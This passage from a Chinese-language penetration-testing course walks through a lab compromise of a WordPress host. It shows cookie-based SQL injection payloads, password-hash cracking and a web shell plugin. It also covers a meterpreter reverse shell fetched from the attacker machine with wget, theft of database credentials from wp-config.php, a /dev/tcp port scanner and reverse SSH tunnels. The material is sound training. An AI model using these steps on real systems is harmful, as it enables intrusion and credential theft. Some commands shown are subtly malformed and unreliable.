kali@kali:~$ searchsploit elementor

Exploits: No Result

kali@kali:~$ searchsploit ocean-extra

Exploits: No Result

kali@kali:~$ searchsploit wp-survey-and-poll

Exploits: No Result
```

### 列表 861 - Searchsploit 未找到任何结果

不幸的是，我们未找到任何利用代码。然而，我们需要小心我们的搜索方式。仅仅因为搜索 "`ocean-extra`" 未找到任何内容，并不意味着不存在相关信息。我们将尝试对 `ocean-extra` 使用更通用的搜索，例如 "`ocean`"。

```bash
kali@kali:~$ searchsploit ocean

Exploit Title                                  |  Path (/usr/share/exploitdb/)

============================================= |  ==============================

Apache Libcloud Digital Ocean API - Local Information   |  exploits/linux/local/38937.txt

Ocean FTP Server 1.00 - Denial of Service        |  exploits/windows/dos/893.pl

Ocean12 (Multiple Products) - 'Admin_ID' SQL Injectio |  exploits/asp/webapps/32602.txt

Ocean12 ASP Calendar Manager 1.0 - Authentication Byp  |  exploits/asp/webapps/26473.txt

Ocean12 ASP Guestbook Manager 1.0 - Information Discl  |  exploits/asp/webapps/22484.txt

Ocean12 Calendar Manager 1.0 - Admin Form SQL Injecti  |  exploits/php/webapps/25469.txt

Ocean12 Calendar Manager Gold - Database Disclosure    |  exploits/php/webapps/7247.txt

Ocean12 Contact Manager Pro - SQL Injection / Cross-S  |  exploits/php/webapps/7244.txt

Ocean12 FAQ Manager Pro - 'ID' Blind SQL Injection    |  exploits/php/webapps/7271.txt

Ocean12 FAQ Manager Pro - 'Keyword' Cross-Site Script  |  exploits/asp/webapps/32601.txt
```

### 列表 862 - Searchsploit 关于 Ocean 的结果

仅仅搜索 "`ocean`" 返回了一些结果，但查看输出后发现没有一个是针对 WordPress 插件的。让我们对 `wp-survey-and-poll` 执行相同的操作，并搜索 "`survey poll`"。

```bash
kali@kali:~$ searchsploit survey poll

Exploit Title                                  |  Path (/usr/share/exploitdb/)

============================================= |  ==============================

MD-Pro 1.083,x.x - Survey Module 'pollID' Blind SQL Inj  |  exploits/php/webapps/9021.txt

PHP-Nuke CMS (Survey and Poll) - SQL Injection     |  exploits/php/webapps/11627.txt

Pre Survey Poll - 'catid' SQL Injection           |  exploits/asp/webapps/6119.txt

WordPress Plugin Survey & Poll 1.1 - Blind SQL Inje  |  exploits/php/webapps/36054.txt

WordPress Plugin Survey & Poll 1.5.7.3 - 'sss_params'  |  exploits/php/webapps/45411.txt

nabopol1 1.2 - 'survey.inc.php/path' Remote File Incl   |  exploits/php/webapps/3315.txt
```

### 列表 863 - Searchsploit 关于 survey 和 poll 的结果

这次搜索看起来更有希望。第四个和第五个结果似乎是针对我们的 WordPress 插件的。第五个结果，标题为 "`WordPress Plugin Survey & Poll 1.5.7.3`" ，也与 WPScan 发现的我们插件的版本（`1.5.7.3`）相匹配。让我们检查该利用代码，看看是否能发现什么有趣的信息。

```
# 描述

# 该漏洞允许攻击者使用 cookie 参数的值注入 sql 命令。

# PoC（概念验证）

# 步骤 1. 当你访问包含投票或调查的页面时，会出现一个问题供回答。

# 回答该问题。

# 步骤 2. 当你回答问题时，wp_sap 将被分配一个值。打开

# cookie 管理器，并将其更改为下面显示的 payload：

["1650149780'") OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@version,11#"]

# 重要的是 "OR" 语句必须是 1=2。因为应用程序会

# 反映查询的第一个结果。如果你将其改为 1=1，你应该会看到

# 来自第一条记录的问题。因此 OR 语句必须返回 False。

# 步骤 3. 重新加载页面。打开页面的源代码。搜索 "sss_params"。

# 你将在 sss_params 参数的值中看到数据库的版本。
```


### 列表 864 - 查看利用代码

粗略浏览利用代码，并未提及是否需要进一步的身份验证。然而，需要设置一个 cookie。让我们前往插件网站，看看能否找到更多相关信息。快速 Google 搜索 "Wordpress Survey & Poll" 将我们引向了该插件页面。[^729] 查看截图，我们发现了页面上调查示例的样子。

[^729]: (WordPress, 2020), https://wordpress.org/plugins/wp-survey-and-poll/


我们在 `sandbox.local` 的主页上找到了一个类似的调查。


让我们打开 Burp Suite，配置 Firefox 中的代理设置，并在我们与调查交互时拦截通信。

> 如果你在配置 Burp 时遇到问题，请回到 Web Applications 模块进行快速回顾。

加载好页面并将 Burp 配置为拦截后，我们将点击调查的一个选项。这将导致 Burp 捕获到一个请求。我们将点击 Burp 中的 Forward 以继续页面加载。


**图 321：来自调查响应的捕获请求**

现在当我们重新加载页面时，我们注意到漏洞代码中提到的 cookie 存在漏洞。


**图 322：包含漏洞 Cookie 的捕获请求**

使用这个 cookie，我们可以开始尝试利用该 SQL 注入漏洞。

#### 24.2.2 SQL 注入利用

既然我们已经捕获了一个包含漏洞 cookie 的请求，我们就可以在 Burp 的 `Repeater` 中使用它来尝试利用 SQL 注入。为此，我们在 Burp 的 `HTTP History` 选项卡中找到包含该 cookie 的请求，右键点击它，并选择 `Send to Repeater`。


然后我们点击 `Repeater` 选项卡，查看其原始格式的 cookie。


图 324：在 Repeater 中查看请求

让我们从原始利用中提取 payload，将其放入 cookie 中，并发送请求到服务器。payload 可以在列表 865 中找到。

```
["1650149780') OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@version,11#"]
```

列表 865 · 原始 SQL 注入 payload

根据利用代码，payload 可以插入到 `wp_sap` cookie 变量值中。cookie 变量的值从 `=` 符号之后开始，并且必须以分号结束。


> 图 325：使用 Payload 发送请求

利用代码提到，SQL 注入的结果将放在 `script` 标签内的 `sss_params` 变量中。在 Burp 中搜索该变量应该能带我们找到 SQL 注入输出的位置。

我们还可以设置 Burp 将来自动滚动 `auto-scroll` 到此位置，以简化利用过程，这样我们就不必每次手动滚动寻找输出了。


在此输出中，我们可以看到正在使用的数据库版本。这证明 SQL 注入成功了！

```
<script type='text/javascript'>

/* <![CDATA[ */

var sss_params = {"survey_options":"{\"options\":\"[\"\\"bottom\\",\\"easeInOutBack\\",\\"webkit-linear-gradient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 204) 204, 204 70%)-moz-linear-gradient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 204) 70%)-o-linear-gradient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 204) 70%);linear-gradient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 204);linear-gradient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 204) 70%);\\",\\"rgb(0, 0, 0)\\",\\"rgb(93, 90, 93)\\",\\"\\"0\\",\\"\\"0\\",\\"\\"0\\",\\"\\"0\\",\\"\\"0\\",\\"\\"0\\",\\"\\"9\\",\\"\\"8\\",\\"\\"8\\",\\"\\"500\\",\\"Thank you for your feedback\\",\\"\\"0\\",\\"\\"0\\",\\"\\"0\\",\\"\\"0\\",\\"\\"0\\",\\"\\"0\\"]",\"plugin_url\":\"http://\\/\\/sandbox.local\\/wp-content\\/plugins\\/wp-survey-and-poll\",\"admin_url\":\"http://\\/\\/sandbox.local\\/wp-admin\\/admin-ajax.php\",\"survey_id\":\"1550849657\",\"style\":\"modal\",\"expired\":\"false\",\"debug\":\"true\",\"questions\":[{\"Are you enjoying the new site?\",\"Yes\",\"No\"},{\"10.3.20-MariaDB\"}]};

/* ]]> */

</script>
```

列表 866 - 通过 SQL 注入提取数据库版本


现在我们知道了这个 WordPress 实例使用的数据库是 10.3.20-MariaDB。

> *MariaDB 是 MySQL 的一个分支。它旨在作为 MySQL 的即插即用替代品，用于 MySQL 的 SQL 注入漏洞利用通常也适用于 MariaDB。*

既然我们知道 SQL 注入有效，我们需要确定下一步。虽然通过 MariaDB 上传 PHP shell 可能让我们获得该 WordPress 实例的远程代码执行权限，但如果我们对系统没有更多信息，这会非常不稳定且困难。

让我们从更简单的开始，提取管理员的用户名和密码哈希。为此，我们需要获取表列表，找到用户表，获取列列表，然后最后提取相关信息。

要获取表名列表，我们需要查询 `information_schema.tables` 表中的 `table_name` 列。这可以通过修改 cookie payload 来实现，如列表 867 所示。

```
"1650149780'\') OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"
```

*列表 867 - 列出所有表*

注意，我们还移除了原始 payload 中的 `ALL`。这是为了减少结果，因为我们不关心重复值。

同样，payload 可以插入到 `wp_sap` cookie 值中。与之前一样，cookie 的值从 `=` 符号之后开始，并以分号结束。


图 327：查询所有表

结果包含大量的表，但最突出的是 `wp_users`，因为它很可能包含 WordPress 用户信息。

既然有了表名，我们可以着手获取其列名。为此，我们在 `information_schema.columns` 中查询 `column_name` 列，并将结果限制在表为 `wp_users` 的情况。这可以通过更新我们的 payload 来实现，如列表 868 所示。


`"1569149780") OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name='wp_users'#"`

```
列表 868 - `wp_users` 表中所有列的列表
```

与之前的 payload 一样，此 payload 也将放置在 Repeater 选项卡中的 `wp_sap` cookie 值中。


我们的查询结果揭示了几个列名。对我们最感兴趣的是 `user_login` 和 `user_pass`，因为它们很可能包含用于验证该 WordPress 实例凭据的信息。

接下来，让我们查询用户名。为此，我们需要发送一个 SQL 注入请求，要求获取 `wp_users` 表中所有 `user_login` 值。这可以通过按如下方式更新我们的查询来实现。

```
["15650149780'") OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"]
```

列表 869 - 列出所有用户名

我们再次重复之前的注入。


此查询仅公开了一个用户名：`wp_ajla_admin`。既然有了用户名，是时候获取密码哈希了。

为此，我们需要将查询中的 `user_login` 替换为 `user_pass`。

```
["1650149780')]  OR 1=2  UNION  SELECT  1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"]
```

列表 870 - 列出所有密码


图 330：查询 `wp_users` 中的所有密码

作为注入的结果，我们成功恢复了管理员的密码哈希。注意末尾的编码；响应中包含三个 `""` 字符以转义单个 `"`。在尝试对 web 应用程序进行身份验证之前，需要破解此哈希值。

## 24.2.2.2 练习

- 使用 `sqlmap` 利用 SQL 注入并提取用户名和密码。

### 24.2.3 破解密码

既然我们有了密码哈希，我们需要破解它以获取明文密码。虽然我们可以运行传统的暴力破解攻击，尝试每个字母组合希望有一个匹配，但这可能需要很长时间。相反，我们选择使用 Kali Linux 中包含的 "rockyou" 词库开始。

> 如果你还没有这样做，可以使用 `gunzip` 解压 `/usr/share/wordlists/rockyou.txt.gz` 文件来扩展存档。这将用纯文本文件替换存档文件。

在继续之前，让我们创建一个包含密码哈希的文件。

```
kali@kali:~$ echo "$P$BfBI166MsPQgzmvYsUzwrjC5vSx9L6I/" > pass.txt
```

列表 871 - 将密码添加到文件

让我们尝试使用 John the Ripper 破解密码。我们将使用 `wordlist` 选项以及词库的路径，并提供包含密码哈希的文件名。

```
kali@kali:~/Desktop/sandbox.local$ john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt

!1ove29jan2006! (?)

lg 0:00:22:59 DONE 0.000724g/s 10391p/s 10391c/s 10391C/s l!ovegod..!lov3h\m

Use "--show --format=phpass" to display all of the cracked passwords reliably

Session completed
```

列表 872 - 运行 John the Ripper

运行上述命令可能需要很长时间，具体取决于计算机的 CPU。根据列表 872 中的输出，John 指出密码是 "love29jan2006!"。让我们尝试看看我们是否可以登录 web 应用程序。

默认情况下，WordPress 登录页面位于 `/wp-admin`。访问此页面会提示我们输入用户名和密码。


一旦我们点击登录，就可以进入管理员仪表板。


图 332：成功登录

> 可能会出现请求验证管理员电子邮件地址的情况。如果是这种情况，只需点击“此电子邮件正确”即可继续。

既然我们已经登录，就可以继续我们的信息收集旅程，以发现下一步应该利用什么。

#### 24.2.4 枚举管理界面

登录管理界面为进一步利用打开了大门。在我们开始探索提升当前访问权限的方法之前，让我们先调查一下 WordPress 提供的选项。

在 WordPress 中，一个很好的起点是工具 > 站点健康部分的*信息*选项卡。


图 333。查看 WordPress 信息页面

在此页面上，我们可以确定服务器正在使用 PHP 版本 7.0.33-0ubuntu0.16.04.7 运行 WordPress。我们还发现数据库正在 IP 地址 10.5.5.11 上运行，这与我们当前正在针对的目标不同。这并不罕见，因为数据库和 Web 应用程序通常运行在单独的服务器上。

既然我们已经收集了一些基本信息，就可以尝试提升我们的访问权限。拥有 WordPress 管理权限的一个便利之处是我们可以安装自己的插件。WordPress 中的插件是用 PHP 编写的，且限制较少。例如，我们可以上传一个包含 PHP 反向 Shell 或代码执行功能的插件。幸运的是，其他人已经为此目的创建了恶意插件。

其中一个这样的插件可以在 `seclists` 包中找到，可以通过 `apt` 在 Kali 中安装。

```
kali@kali:~$ sudo apt install seclists
```

Listing 873 - Installing the seclists package

安装完成后，seclists 目录可以在 `/usr/share/seclists` 中找到，而我们要找的文件可以在 Web-Shells/WordPress 中找到。

```
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ ls
bypass-login.php plugin-shell.php
```

Listing 874 - Listing seclists WordPress web shells

我们要找的具体文件是 `plugin-shell.php`。让我们快速检查一下它，看看它是做什么的。

```
1 <?php
2 /*
3 Plugin Name: Cheap & Nasty Wordpress Shell
4 Plugin URI: https://github.com/leonjza/wordpress-shell
5 Description: Execute Commands as the webserver you are serving wordpress with!
Shell will probably live at /wp-content/plugins/shell/shell.php. Commands can be given
using the 'cmd' GET parameter. Eg: "http://192.168.0.1/wp-content/plugins/shell/shell.
php?cmd=id", should provide you with output such as <code>uid=33(www-data) gid=33(www-data) groups=33(www-data)</code>
Author: Leon Jacobs
Version: 0.3
Author URI: https://leonjza.github.io
9 */
```

Listing 875 - WordPress plugin shell comments

Listing 875 中的第 2-9 行是注释，对于 WordPress 识别该文件为插件是必需的。


# attempt to protect myself from deletion

`$this_file = __FILE__;`

`@system("chmod ugo-w $this_file");`

`@system("chattr +i $this_file");`

Listing 876 - Self deletion protection

```
第 12-14 行试图保护该文件不被系统删除。
```

# test if parameter 'cmd', 'ip' or 'port' is present. If not this will avoid an error on logs or on all pages if badly configured.

`if( isset($_REQUEST[$cmd]) ) {`

`# grab the command we want to run from the 'cmd' GET or POST parameter (POST doesn't display the command on apache logs)`

`$command = $_REQUEST[$cmd];`

`executeCommand($command);`

Listing 877 - Check for cmd parameter

```
第 20-24 行将尝试运行系统命令，如果 HTTP 请求中设置了 $cmd 变量。该插件将使用 executeCommand 函数来识别并执行适当的 PHP 内部 API，以在目标系统上运行命令。executeCommand 函数可以在第 47-82 行找到。
```

`function executeCommand(string $command) {`

`# Try to find a way to run our command using various PHP internals`

`if (class_exists('ReflectionFunction')) {`

`# http://php.net/manual/en/class.reflectionfunction.php`

`$function = new ReflectionFunction('system');`

`$function->invoke($command);`

`} elseif (function_exists('call_user_func_array')) {`

`# http://php.net/manual/en/function.call-user-func-array.php`

`call_user_func_array('system', array($command));`

`} elseif (function_exists('call_user_func')) {`

`# http://php.net/manual/en/function.call-user-func.php`

`call_user_func('system', $command);`

`} else if(function_exists('passthru')) {`

`# https://www.php.net/manual/en/function.passthru.php`

`ob_start();`

`passthru($command , $return_var);`

`$output = ob_get_contents();`

`ob_end_clean();`

`} else if(function_exists('system')){`

`# this is the last resort. chances are PHP Suhosin`

`# has system() on a blacklist anyways :>`

`# http://php.net/manual/en/function.system.php`

`system($command);`
`}`

`}`

*Listing 878 - executeCommand function*

`plugin-shell.php` 插件是在系统上执行命令的催化剂。一旦我们能够在受 compromises 的主机上触发任意代码执行，就有许多方法可以获得完整的反向 Shell。

### 24.2.5 获取 Shell

为了获取 shell，我们首先必须以 WordPress 知道如何处理的方式对插件进行打包。WordPress 期望插件位于 zip 文件中。当 WordPress 接收到 zip 文件时，它会将其解压到服务器上的 `wp-content/plugins` 目录中。WordPress 将 zip 文件的内容放入一个与 zip 文件本身名称匹配的文件夹中。因此，我们需要记下文件的名称，以便稍后能够访问我们的 PHP Shell。

Listing 879 展示了 zip 文件的创建过程。

```
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Listing 879 - Creating zip package for web shell

生成的 zip 文件名为 `plugin-shell.zip`，并将放置在服务器上的 `wp-content/plugins` 中的 `plugin-shell` 文件夹内。

既然插件包已生成，是时候上传 shell 了。首先，我们需要点击左侧边栏上的 `插件` 链接，访问插件页面。


图 334：访问插件页面

接下来，我们通过点击左上角的 `Add New` 来安装插件。这将把我们带到“添加插件”页面。


*图 335。添加插件页面*

由于我们不是从 WordPress 插件目录下载插件，我们需要在页面的左上角选择 `上传插件`。


*图 336：上传插件对话框*

这将打开一个部分，我们可以选择我们的插件包。我们需要选择“浏览”，这将打开一个文件对话框，让我们找到创建好的包。


图 337：选择插件 zip 文件

在文件对话框打开后，我们导航到包含我们插件的目录，选择 `plugin-shell.zip` 文件，并点击文件对话框底部的“打开”。

最后，为了安装插件，我们点击 `Install Now`。


图 338：安装插件

安装插件将上传 zip 文件并解压其内容。

既然插件已安装，我们可以尝试使用它在 WordPress 目标上运行系统命令。为此，我们可以简单地使用 `cURL`。如前所述，插件的目录是 `wp-content/plugins`，zip 文件将被解压到一个名为 `plugin-shell` 的目录中，我们要针对的文件名为 `plugin-shell.php`。

请记住，我们还必须设置一个包含我们要在目标系统上执行的命令的 `cmd` 参数。让我们尝试运行 `whoami`，看看 shell 是否有效。

```
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```


### Listing 880 - Running whoami

有效！根据 `Listing 880` 的输出，我们正在以 `www-data` 用户身份运行命令。现在是时候上传 meterpreter 载荷并获取完整的反向 Shell 了。

首先，让我们使用 `msfvenom` 工具生成一个 meterpreter 载荷。

```
kali@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf
```

*列表 881 - 生成 meterpreter 载荷*

我们选择了 Linux 反向 TCP meterpreter 载荷，因为根据之前的枚举工作，我们知道目标运行在 Ubuntu 上。`LHOST` 选项将指向我们的 Kali IP 地址，我们选择 `443` 作为 `LPORT`，以尝试绕过任何出站防火墙规则。虽然检查出口过滤总是个好习惯，但在这种情况下，我们假设 `443` 端口是未受限的。我们将载荷生成为一个 elf 文件，并将输出重定向到 kali 用户主目录下一个名为 `shell.elf` 的文件。

在生成 meterpreter 反向 shell 之后，我们启动一个 web 服务器，以便目标能够下载该 shell。

```
kali@kali:~$ sudo python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 ...
```

*列表 882 - 在 80 端口启动 web 服务器*

列表 882 中的 web 服务器使用 Python 的 `http.server` 模块，指示其使用 `80` 端口，并从 kali 用户主目录提供文件。我们再次选择 `80` 端口，以避免可能遇到的防火墙阻止任意出站端口带来的问题。

在生成 shell 并运行 web 服务器后，我们将指示目标下载该 shell。我们将使用目标机上的 `wget` 从我们的 Kali 系统下载 shell。但是，由于 URL 中不能使用空格，我们必须将任何空格字符编码为 `"%20"`。我们要运行的命令如列表 883 所示。

```
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://10.11.0.4/shell.elf
```

*列表 883 - 将 shell 下载到目标*

如果命令执行成功，我们应该在 Python web 服务器的日志中看到类似以下的条目。

```
Serving HTTP on 0.0.0.0 port 80 ...

10.11.1.250 - - [09/Dec/2019 19:40:16] "GET /shell.elf HTTP/1.1" 200 -
```

*列表 884 - 成功下载*

成功！接下来我们需要使该 shell 可执行，在 Kali 上启动一个 Metasploit 载荷处理程序，并在目标上运行 elf 文件以获取 meterpreter shell。为了使 shell 可执行，我们将对其运行 `chmod +x`。同样，我们需要记得对敏感字符（如空格（`%20`）和 `"+"`（`%2b`））进行 URL 编码。使 shell 可执行的命令显示在列表 885 中。

```
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2B%20shell.elf
```

*列表 885 - 使 shell 可执行*

此时，该 shell 应该已经是可执行的。接下来，我们将在适当的接口和端口上启动一个 meterpreter 载荷监听器。

```
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\n set PAYLOAD linux/x86/meterpreter/reverse_tcp;\ 
 set LHOST 10.11.0.4;\ 
 set LPORT 443;\ 
 run"
```

```
PAYLOAD => linux/x86/meterpreter/reverse_tcp

LHOST => 10.11.0.4

LPORT => 443

[*] Started reverse TCP handler on 10.11.0.4:443
```

在上面的 `msfconsole` 命令中，我们让 Metasploit 静默启动（`-q`），并通过 `-x` 选项立即配置载荷处理程序，传入与我们生成 shell 时使用的相同载荷设置。

随着监听器运行，终于该获取反向 shell 了。这可以通过通过我们之前安装的恶意 WordPress 插件执行 `shell.elf` 文件来实现。

```
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/shell/plugin-shell.php?cmd=./shell.elf
```

回到我们的监听器，我们应该看到已经捕获到了一个 shell。

```
[*] Sending stage (985320 bytes) to 10.11.1.250
[*] Meterpreter session 1 opened (10.11.0.4:443 --> 10.11.1.250:53768) at 19:54:41
meterpreter > shell

Process 9629 created.
Channel 1 created.
whoami
www-data
exit
meterpreter >
```

现在我们在 WordPress 机器上拥有了一个 shell，我们将进行后渗透枚举。

#### 24.2.6 后渗透枚举

首先，让我们收集一些有关主机基本信息，如网络配置、主机名、操作系统版本等。

```
meterpreter > shell

Process 6667 created.
Channel 3 created.
ifconfig
ens160 Link encap:Ethernet HWaddr 00:50:56:8a:82:85
 inet addr:10.4.4.10 Bcast:10.4.4.255 Mask:255.255.255.0
 inet6 addr: fe80::250:56ff:fe8a:8285/64 Scope:Link
 UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:29154 errors:0 dropped:22 overruns:0 frame:0
TX packets:176526 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:8327519 (8.3 MB)  TX bytes:13590061 (13.5 MB)
...
hostname
ajla
cat /etc/issue
Ubuntu 16.04 LTS \n \l
cat /proc/version
Linux version 4.4.0-21-generic (buildd@lgw01-21) (gcc version 5.3.1 20160413 (Ubuntu 5.3.1-14ubuntu2) ) #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016
```

*列表 889 - 收集一些基本信息*

从这些基本信息的收集中，我们得知该主机名为 “Ajla”，IP 地址为 `10.4.4.10`，Linux 版本为运行在 `4.4.0-21-generic` 内核上的 Ubuntu 16.04.12。这些信息将有助于我们开始构建网络的思维地图，并可能在后续工作中有用。


*图 339. 包含 Ajla 的网络拓扑图*

在收集了这些基本信息后，我们可以继续进行更具体的枚举。由于我们知道目标运行着 WordPress，并且发现数据库位于另一台主机上，我们知道该系统某处应该有数据库凭据。一个简单的 Google 搜索显示，`wp-config.php` 文件是我们可以找到 WordPress 数据库配置的地方。查看该文件，我们发现可能的下一个目标。

```
meterpreter > shell

Process 9702 created.
Channel 1 created.
pwd
/var/www/html/wp-content/plugins/plugin-shell
cd /var/www/html
ls -alh
...
```


`-rw-r--r--  1 www-data www-data 2.3K Jan 20  2019 wp-comments-post.php`

`-rw-r--r---   1 www-data www-data 2.9K Jan  7  2019 wp-config-sample.php`

`-rw-r--r---   1 www-data www-data 2.7K Dec  6 18:07 wp-config.php`

`drwxrwsr-x   6 www-data www-data 4.0K Dec  9 19:04 wp-content`

...

`cat  wp-config.php`

...

```
/** ** MySQL settings - You can get this info from your web host ** */

/** The name of the database for WordPress */

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */

define( 'DB_USER', 'wp' );

/** MySQL database password */

define( 'DB_PASSWORD', 'Lv9EVQq86cfi8ioIwsqFUQyU' );

/** MySQL hostname */

define( 'DB_HOST', '10.5.5.11' );
```

...

*列表 890 - 读取 wp_config.php*

在 `wp_config.php` 文件中，我们发现数据库 IP 地址设置为 `10.5.5.11`。我们还发现了 MariaDB 用户名 `wp` 以及该账户的密码 `"Lv9EVQq86cfi8ioIwsqFUQyU"`。为了继续，我们需要巩固我们在网络中的立足点并创建一个稳定的跳板。

## 24.2.7 创建稳定的跳板

在继续之前，让我们回顾一下目前的情况。我们在 WordPress 机器上拥有一个 shell，身份为 `www-data` 用户，并且我们还通过 Ajax 获得了数据库的网络访问权限。最后，我们刚刚发现了一组数据库凭据，我们知道它们是有效的，因为 WordPress 应用程序正在使用中。

目前为止，我们知道网络结构应该类似于图 340。


*图 340：数据库主机名未知的网络示意图*

由于 WordPress 机器和数据库机器位于不同的网络中，现在是使用隧道的最佳时机。然而，由于我们的反向 shell 以没有有效登录 shell 的无权用户账户 `www-data` 上下文运行，我们的选择受到限制。

由于 `ssh` 客户端是几乎所有 Linux 发行版都包含的核心应用程序，我们可以尝试使用它创建反向隧道。需要注意的是，由于我们没有 root 权限为 `www-data` 用户创建登录，我们需要使用 WordPress 机器上的 SSH 客户端登录到我们的 Kali 服务器来创建隧道。简而言之，我们需要一个反向隧道。

动态端口转发对我们没有用，因为隧道的方向是错的。本地端口转发同样因为相同的原因没有用。远程端口转发可以让我们在 Kali 上开放一个端口，该端口指向 MariaDB 服务器。然而，这需要我们知道内部目标实际上开放了哪些端口。

首先，我们会检查 Nmap，看看是否能简化端口扫描过程，但也不应该抱太大希望。

```
nmap

/bin/sh: 1: nmap: not found
```

列表 891 - 检查 Nmap

意料之中，服务器上并没有 Nmap，但不用担心。我们可以创建一个快速脚本来扫描主机。

```bash
#!/bin/bash

host=10.5.5.11

for port in {1...65535}; do
    timeout .1 bash -c "echo >/dev/tcp/$host/$port" &
    echo "port $port is open"
done

echo "Done"
```

列表 892 - Bash 端口扫描

该脚本的内容可以保存为一个名为 `portscan.sh` 的文件。我们的脚本将从 1 迭代到 65535 的每个端口。对于每个端口，将进行一个超时为 0.1 秒的连接，如果连接成功，脚本将输出哪个端口是开放的。

这个脚本简单且粗糙；不过，它应该能获取到我们要的信息。要运行该脚本，我们需要将其内容写入文件。快速实现这一点的方法是使用 meterpreter 的 `upload` 命令。

```
meterpreter > upload /home/kali/portscan.sh /tmp/portscan.sh
[*] uploading : /home/kali/portscan.sh -> /tmp/portscan.sh
[*] Uploaded -1.00 B of 151.00 B (-0.66%) : /home/kali/portscan.sh -> /tmp/portscan.sh
[*] uploaded : /home/kali/portscan.sh -> /tmp/portscan.sh
meterpreter > shell

Process 2924 created.
Channel 2 created.
cd /tmp
chmod +x portscan.sh
./portscan.sh
port 22 is open
port 3306 is open
done
```

列表 893 - 运行 Bash 端口扫描

扫描需要一段时间完成，但完成后，我们可以看到端口 22 和 3306 是开放的。现在我们知道了，我们需要创建一个隧道，让 Kali 能够访问数据库服务器上的 22 和 3306 端口。实现此目的 `ssh` 命令类似于以下形式：


使用 Kali Linux 进行渗透测试 2.0

```
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 kali@10.11.0.4
```

列表 894 - ssh 命令的第一次迭代

在列表 894 中，我们将开放 Kali 上的 1122 端口以指向 MariaDB 主机上的 22 端口。接下来，我们还将开放 Kali 上的 13306 端口以指向 MariaDB 主机上的 3306 端口。

如果我们在 meterpreter shell 中运行此命令，会迅速遇到一个障碍，因为我们没有完全交互式的 shell。这是一个问题，因为 `ssh` 会提示我们接受 Kali 主机的密钥并输入 Kali 用户的密码。出于安全考虑，我们希望避免在我们刚刚入侵的主机上输入我们的 Kali 密码。

我们可以通过传递两个可选标志来自动接受我们 Kali 主机的密钥，从而解决第一个问题。这些标志是 `UserKnownHostsFile=/dev/null` 和 `StrictHostKeyChecking=no`。第一个选项通过向 `/dev/null` 发送输出来阻止 `ssh` 尝试保存主机密钥。第二个选项将指示 `ssh` 不提示我们接受主机密钥。这两个选项都可以通过 `-o` 标志设置。我们更新的命令如下所示：

```
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@10.11.0.4
```

列表 895 - ssh 命令的第二次迭代

现在我们需要阻止 `ssh` 询问我们密码，我们可以使用 `ssh` 密钥来实现。我们将在 WordPress 主机上生成 `ssh` 密钥，配置 Kali 接受来自新生成密钥的登录，并且只允许端口转发，并再次修改 `ssh` 命令以匹配我们的更改。

```bash
mkdir keys
cd keys
ssh-keygen

Generating public/private rsa key pair.
Enter file in which to save the key (/var/www/.ssh/id_rsa): /tmp/keys/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/keys/id_rsa.
Your public key has been saved in /tmp/keys/id_rsa.pub.
...
cat id_rsa.pub
```


ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCx02TJE5uX1HqoUUb4j9p/IPhxsPgf++IPKW4N6pK0ZXSmMF Lhjyh4Hr4uf+H5nF2g1hN4N224DjkFz9f95OTx3moOaUgEwhTZCNNLJ1Hs2fSs7ObLR+gZ23kaJ+TYM8Z Io/ENC68Py+NhtWlc2So95ARwCa/Hkb7KZL1xN66f9rvCqXAkY/WZcBBxYkGd0Lut3c58++6h3s5p0LdkoPs8T 5/W3nCn81l2Lex/d02100CLGEav2V1R9x8X7VdI6h58PySj35+ZX0RHazbd8dSTMwGFz2l6oo+wbHBT6RPSfF 92lZmo9/U52LoQHxs70XNg61BLtr4I/M0Din www-data@jla

列表 896 - 生成 SSH 密钥

这个新的公钥需要输入到我们 Kali 主机 `kali` 用户的 `authorized_keys` 文件中，但需要带有一些限制。为了避免潜在的安全问题，我们可以收紧 ssh 配置，仅允许来自 WordPress IP 地址的访问（注意，这将是一个 NAT IP，因为这是 Kali 看到的，而不是实际 WordPress 主机的 IP）。

PWK 2.0

版权所有 © Offensive Security Ltd. 保留所有权利。

779


